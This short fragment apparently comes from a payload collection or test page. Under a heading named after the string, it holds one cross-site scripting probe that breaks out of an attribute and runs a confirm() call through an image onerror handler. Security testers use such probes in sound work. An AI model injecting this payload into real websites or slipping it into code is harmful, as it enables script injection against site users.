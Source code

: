 ----img-src-x-onerror-confirm-3---
==================================

"'>&lt;img src=x onerror=confirm(3);>
